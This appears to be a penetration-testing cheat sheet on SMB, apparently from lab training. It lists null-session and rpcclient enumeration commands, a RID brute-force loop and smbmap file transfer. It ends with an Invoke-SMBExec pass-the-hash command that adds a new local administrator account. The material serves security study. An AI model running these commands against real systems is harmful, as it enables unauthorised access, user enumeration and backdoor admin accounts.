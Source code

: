 # 139 / 445 - SMB

## Enumeration

| Command                                                                                                                                                        | Enumeration                                                                    |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------ |
| `smbclient -N -L \\\\10.129.42.253`                                                                                                                            | Null session authentication on SMB.                                            |
| `smbclient \\\\10.129.42.253\\users`                                                                                                                           | Connect to a specific SMB share.                                               |
| `smbclient -N -L //<FQDN/IP>`                                                                                                                                  | Null session authentication on SMB.                                            |
| `smbclient //<FQDN/IP>/<share>`                                                                                                                                | Connect to a specific SMB share.                                               |
| `rpcclient -U "" <FQDN/IP>`                                                                                                                                    | Interaction with the target using RPC.                                         |
| `srvinfo`                                                                                                                                                      | RPCCLIENT - Server information.                                                |
| `enumdomains`                                                                                                                                                  | RPCCLIENT - Enumerate all domains that are deployed in the network.            |
| `querydominfo`                                                                                                                                                 | RPCCLIENT - Provides domain, server, and user information of deployed domains. |
| `netshareenumall`                                                                                                                                              | RPCCLIENT - Enumerates all available shares.                                   |
| `netsharegetinfo <share>`                                                                                                                                      | RPCCLIENT - Provides information about a specific share.                       |
| `enumdomusers`                                                                                                                                                 | RPCCLIENT - Enumerates all domain users.                                       |
| `queryuser <RID>`                                                                                                                                              | RPCCLIENT - Provides information about a specific user.                        |
| `for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" \| grep "User Name\\|user_rid\\|group_rid" && echo "";done` | RPCCLIENT - Bruteforcing user RIDs                                             |
| `samrdump.py <FQDN/IP>`                                                                                                                                        | Username enumeration using Impacket scripts.                                   |
| `smbmap -H <FQDN/IP>`                                                                                                                                          | Enumerating SMB shares.                                                        |
| `crackmapexec smb <FQDN/IP> --shares -u '' -p ''`                                                                                                              | Enumerating SMB shares using null session authentication.                      |
| `enum4linux-ng.py <FQDN/IP> -A`                                                                                                                                | SMB enumeration using enum4linux.                                              |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"`                                                                                                          | Download file using smbmap                                                     |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"`                                                                                                   | Upload file using smbmap                                                       |

## Cerate a share on a linux-based host to transfer files



`python3 smbserver.py -smb2support CompData /home//Documents/`

## Invoke-TheHash with SMB

`Invoke-SMBExec -Target 172.16.1.10 -Domain toto.com -Username julio -Hash 64F12CDDAA88057E06A81CEFE73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose`
